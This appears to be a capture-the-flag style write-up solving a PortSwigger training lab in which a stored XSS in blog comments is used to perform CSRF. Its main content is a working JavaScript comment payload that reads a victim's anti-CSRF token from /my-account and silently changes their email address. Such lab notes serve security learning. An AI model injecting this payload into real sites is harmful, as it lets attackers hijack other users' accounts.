 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517192749.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220517192701.png)

### Exploiting XSS to perform CSRF
```bash

# This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.

# You can log in to your own account using the following credentials: `wiener:peter`

Login as wiener:peter
Update your email:

email@email.com

Go to: HTTP history 

POST /my-account/change-email HTTP/1.1

Note the hidden CSRF parameter

email=email%40email.com&csrf=LoD1CBSqXWwVWQfGNeigE8VO3V6yuB2k

Go to: "View post"

Comment:

<script> 
var req = new XMLHttpRequest(); 
req.onload = handleResponse; 
req.open('get','/my-account', true); 
req.send(); 
function handleResponse() { 
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
var changeReq = new XMLHttpRequest(); 
changeReq.open('post', '/my-account/change-email', true); 
changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

Name:

name

Email:

email@email.com

```

